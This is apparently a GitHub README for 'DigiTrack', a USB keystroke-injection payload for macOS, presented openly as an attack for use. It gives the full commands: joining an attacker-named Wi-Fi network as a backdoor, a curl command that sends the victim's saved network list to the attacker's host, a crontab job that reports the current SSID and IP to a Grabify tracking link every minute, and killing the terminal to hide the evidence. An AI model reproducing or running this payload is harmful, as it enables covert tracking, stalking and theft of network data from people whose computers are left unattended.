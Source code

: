 # DigiTrack

In 30 seconds, this attack can learn which networks a MacOS computer has connected to before, and plant a script that tracks the current IP address and Wi-Fi network every 60 seconds.

This is a $5 attack that does a couple things:

1) Inserts a Wi-Fi backdoor onto a victim computer, allowing you to connect to the computer at any time.
2) Steals a list of every network the victim has ever connected to (for tracking, classifying, and hijacking data connection)
3) Inserts a tracking job that send the IP address and currently connected network to a Grabify link every 60 seconds.


Attack goes: A victim leaves a MacOS computer unattended for 30 seconds. The attacker inserts a DigiSpark board loaded with an attack payload. The payload looks like this (with delays and single key strokes removed):


 # DigiKeyboard.print("networksetup -setairportnetwork en0 'sneakernet' 00000000"); 
  - We add the network "Sneakernet" to our trusted network list and connect to it.
  
#  DigiKeyboard.print("curl -m 10 --silent --output /dev/null -X POST -H \"Content-Type: text/plain\" --data \"$(networksetup -listpreferredwirelessnetworks en0)\" 192.168.4.1 &");
  - After connecting, we send a CURL request listing every single network the MacOS computer has connected to in the past to the attacker computer. The & puts the process in the background in case it takes too long, and the -m sets a timer of 10 seconds to prevent it taking too long. Now we know which Wi-Fi networks the victim has joined, and which networks will force the computer to connect without asking.
  
#  DigiKeyboard.print("export VISUAL=nano; crontab -e");
  - We create a job that will execute every 60 seconds
  
 # DigiKeyboard.print("* * * * * curl --silent --output /dev/null --referer \"$(/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -I | awk '/ SSID/ {print substr($0, index($0, $2))}')\"  https://grabi/YOURLINK");
 - We suppress the output of CURL, and grab the network name of the currently connected Wi-Fi network. We sent this along with a CURL request to a tracking URL, delivering the target's IP address and currently connected Wi-Fi network every 60 seconds.
  
#  DigiKeyboard.print("wait && kill -9 $(ps -p $PPID -o ppid=)");
  - Finally, we wait for all background processes to finish, and kill the shit out of the terminal window to hide the evidence.

Total run time is about 30 seconds, not including the few seconds the Digisparks waits for a sketch to upload.

Notes: Grabify may go into "I'm under attack" mode and not allow checkin. Look for this line:
div class="cf-browser-verification cf-im-under-attack"
  
 If you see it, then the IP address is being blocked by cloudflare.
